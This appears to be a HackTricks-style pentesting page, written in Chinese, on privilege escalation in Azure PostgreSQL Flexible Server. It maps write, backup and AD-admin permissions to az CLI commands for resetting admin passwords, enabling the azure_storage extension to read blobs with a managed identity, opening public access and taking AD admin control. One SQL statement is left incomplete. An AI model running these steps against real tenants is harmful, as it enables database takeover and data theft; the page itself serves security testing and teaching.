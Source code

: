 # Az - PostgreSQL Privesc

{{#include ../../../banners/hacktricks-training.md}}

## PostgreSQL Privesc
有关 SQL 数据库的更多信息，请查看：

{{#ref}}
../az-services/az-postgresql.md
{{#endref}}

### `Microsoft.DBforPostgreSQL/flexibleServers/read` && `Microsoft.DBforPostgreSQL/flexibleServers/write`

拥有此权限，您可以在 Azure 上创建、更新或删除 PostgreSQL Flexible Server 实例。这包括配置新服务器、修改现有服务器配置或退役服务器。
```bash
az postgres flexible-server create \
--name <ServerName> \
--resource-group <ResourceGroupName> \
--location <Location> \
--admin-user <AdminUsername> \
--admin-password <AdminPassword> \
--sku-name <SkuName> \
--storage-size <StorageSizeInGB> \
--tier <PricingTier> \
--version <PostgreSQLVersion>
```
例如，这些权限允许更改 PostgreSQL 密码，当然在启用 PostgreSQL 身份验证的情况下非常有用。
```bash
az postgres flexible-server update \
--resource-group <resource_group_name> \
--name <server_name> \
--admin-password <password_to_update>
```
此外，凭借这些权限，您可以启用分配的身份，并使用附加到服务器的托管身份进行操作。您可以在此找到 Azure PostgreSQL 灵活服务器支持的所有扩展 [https://learn.microsoft.com/en-us/azure/cosmos-db/postgresql/reference-extensions](https://learn.microsoft.com/en-us/azure/cosmos-db/postgresql/reference-extensions)。要能够使用这些扩展，需要更改一些服务器参数（azure.extensions）。例如，这里有一个可以访问 Azure Storage 的托管身份：

首先，我们更改参数，并确保已启用分配的身份：
```bash
az postgres flexible-server parameter set \
--resource-group <YourResourceGroupName> \
--server-name <YourServerName> \
--name azure.extensions \
--value "AZURE_STORAGE"

az postgres flexible-server identity update \
--resource-group <YourResourceGroupName> \
--server-name <YourServerName> \
--system-assigned Enabled
```

```sql 

CREATE EXTENSION IF NOT EXISTS azure_storage;

CREATE EXTERNAL DATA SOURCE ManagedIdentity

SELECT azure_storage.account_add('<storage-account>', '<storage-key>');

SELECT *
FROM azure_storage.blob_get(
'<storage-account>',
'<container>',
'message.txt',
decoder := 'text'
) AS t(content text)
LIMIT 1;

```
此外，如果您想从非私有端点访问，则必须启用公共访问，启用方法：
```bash
az postgres flexible-server update --resource-group <resource_group_name> --server-name <server_name> --public-access Enabled
```
### `Microsoft.DBforPostgreSQL/flexibleServers/read`, `Microsoft.DBforPostgreSQL/flexibleServers/write`, `Microsoft.DBforPostgreSQL/flexibleServers/backups/read`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

通过这些权限，您可以从备份中恢复服务器：
```bash
az postgres flexible-server restore \
--resource-group <RESOURCE_GROUP> \
--name <NEW_SERVER_NAME> \
--source-server <SOURCE_SERVER_NAME> \
--restore-time "<ISO8601_TIMESTAMP>" \
--yes

```
### `Microsoft.DBforPostgreSQL/flexibleServers/read`, `Microsoft.DBforPostgreSQL/flexibleServers/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`, `Microsoft.DBforPostgreSQL/flexibleServers/administrators/write` && `Microsoft.DBforPostgreSQL/flexibleServers/administrators/read`

通过此权限，您可以为 PostgreSQL Flexible Server 配置 Azure Active Directory (AD) 管理员。这可以通过将自己或其他帐户设置为 AD 管理员来利用，从而授予对 PostgreSQL 服务器的完全管理控制。尚不支持更新现有主体，因此如果已创建一个，您必须先将其删除。

重要的是，flexible-server 必须具有分配的用户托管身份以供使用。
```bash
az postgres flexible-server ad-admin create \
--resource-group <ResourceGroupName> \
--server-name <ServerName> \
--display-name <ADAdminDisplayName> \
--identity <IdentityNameOrID> \
--object-id <ObjectID>
```
{{#include ../../../banners/hacktricks-training.md}}
